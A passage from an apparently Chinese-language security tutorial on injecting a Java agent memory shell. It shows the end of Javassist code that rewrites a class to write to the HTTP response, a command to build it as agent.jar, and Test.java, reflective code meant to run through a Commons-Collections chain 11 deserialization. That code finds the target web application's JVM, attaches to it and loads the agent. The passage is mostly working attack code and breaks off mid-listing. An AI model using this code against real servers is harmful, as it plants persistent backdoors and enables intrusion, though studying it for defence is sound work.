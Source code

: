 ```java
                        "        response.getOutputStream().close();\n" +
                        "    } catch (Exception e){\n" +
                        "        e.printStackTrace();\n" +
                        "    }\n" +
                        "}");
                byte[] bytes = c.toBytecode();
                // 将 c 从 classpool 中删除以释放内存
                c.detach();
                return bytes;
            } catch (Exception e){
                e.printStackTrace();
            }
        }
        return new byte[0];
    }
}
```

执行以下命令，对项目打包为 `agent.jar`

```php
mvn assembly:assembly
```

然后我们构造cc链11反序列化执行的代码

> tools.jar 并不会在 JVM 启动时默认加载，所以这里利用 URLClassloader 来加载我们的 tools.jar

该代码的作用是找到当前受攻击类的JVM然后对其注册agent

`Test.java`

```java
try{
    java.lang.String path = "C:/Users/Elite/Desktop/agent.jar";
    java.io.File toolsPath = new java.io.File(System.getProperty("java.home").replace("jre","lib") + java.io.File.separator + "tools.jar");
    java.net.URL url = toolsPath.toURI().toURL();
    java.net.URLClassLoader classLoader = new java.net.URLClassLoader(new java.net.URL[]{url});
    Class/*<?>*/ MyVirtualMachine = classLoader.loadClass("com.sun.tools.attach.VirtualMachine");
    Class/*<?>*/ MyVirtualMachineDescriptor = classLoader.loadClass("com.sun.tools.attach.VirtualMachineDescriptor");
    java.lang.reflect.Method listMethod = MyVirtualMachine.getDeclaredMethod("list",null);
    java.util.List/*<Object>*/ list = (java.util.List/*<Object>*/) listMethod.invoke(MyVirtualMachine,null);

    System.out.println("Running JVM list ...");
    for(int i=0;i<list.size();i++){
        Object o = list.get(i);
        java.lang.reflect.Method displayName = MyVirtualMachineDescriptor.getDeclaredMethod("displayName",null);
        java.lang.String name = (java.lang.String) displayName.invoke(o,null);
        // 列出当前有哪些 JVM 进程在运行 
        // 这里的 if 条件根据实际情况进行更改
        if (name.contains("org.example.agentmm.demos.web.Applicationmain")){
            // 获取对应进程的 pid 号
            java.lang.reflect.Method getId = MyVirtualMachineDescriptor.getDeclaredMethod("id",null);
            java.lang.String id = (java.lang.String) getId.invoke(o,null);
            System.out.println("id >>> " + id);
            java.lang.reflect.Method attach = MyVirtualMachine.getDeclaredMethod("attach",new Class[]{java.lang.String.class});
            java.lang.Object vm = attach.invoke(o,new Object[]{id});
            java.lang.reflect.Method loadAgent = MyVirtualMachine.getDeclaredMethod("loadAgent",new Class[]{java.lang.String.class});
            loadAgent.invoke(vm,new Object[]{path});
            java.lang.reflect.Method detach = MyVirtualMachine.getDeclaredMethod("detach",null);
```